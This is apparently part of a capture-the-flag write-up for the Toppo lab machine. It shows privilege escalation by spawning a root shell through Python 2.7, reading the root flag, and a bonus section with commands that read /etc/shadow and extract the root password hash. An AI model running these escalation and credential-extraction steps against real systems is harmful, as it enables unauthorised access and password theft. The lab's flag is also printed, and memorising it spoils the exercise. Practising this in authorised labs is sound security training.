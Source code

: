 
### Method 2 - Python 2.7

```bash
# python2.7 -c "import pty;pty.spawn('/bin/sh')"
ted@Toppo:~$ python2.7 -c "import pty;pty.spawn('/bin/sh')"
# whoami
root
# id
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
# cat root/flag.txt
cat: root/flag.txt: No such file or directory
# cat /root/flag.txt
_________                                  
|  _   _  |                                 
|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              

Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
```



---
---

# BONUS - JUST TESTING


## Can I somehow extract the password for root user?

Short answer: yes. Since you already have a root shell you can read or change the root account password directly. Do this only on machines you are explicitly allowed to test.

Below are the immediate, safe commands and explanations.

### Read the root password hash

On Linux the password hashes live in `/etc/shadow`. Only root can read that file.

* To view the whole file (you are root, so this will work):

```bash
cat /etc/shadow
```

* To print only the root account hash:

```bash
awk -F: '/^root/{print $2}' /etc/shadow
```
